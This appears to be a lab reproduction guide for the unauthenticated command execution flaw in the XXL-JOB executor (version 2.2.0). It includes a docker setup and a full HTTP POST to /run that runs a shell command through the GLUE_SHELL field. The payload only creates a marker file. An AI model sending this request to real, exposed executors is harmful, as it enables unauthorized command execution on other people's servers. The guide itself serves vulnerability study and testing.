


XXL-JOB Executor Unauthorized Access¶
XXL-JOB is a distributed task scheduling platform with core design goals of rapid development, simple learning, lightweight, and easy extensibility. It is now open source and has been integrated into many companies' production lines, ready to use out of the box.
XXL-JOB is divided into two parts: admin and executor, where the former is the backend management page and the latter is the task execution client. The executor has no authentication configured by default, allowing unauthorized attackers to execute arbitrary commands through the RESTful API.
References:
- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE
Environment Setup¶
Execute the following command to start XXL-JOB version 2.2.0:
docker compose up -d
After the environment is started, you can access the management end (admin) at http://your-ip:8080 and the client end (executor) at http://your-ip:9999.
Vulnerability Reproduction¶
Send the following data packet to the client (executor) to execute commands:
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365
{
"jobId": 1,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "COVER_EARLY",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586629003729,
"glueType": "GLUE_SHELL",
"glueSource": "touch /tmp/success",
"glueUpdatetime": 1586699003758,
"broadcastIndex": 0,
"broadcastTotal": 0
}

The command touch /tmp/success has been successfully executed:

Additionally, for XXL-JOB versions below 2.2.0 that don't have a RESTful API, we can execute commands through Hessian deserialization.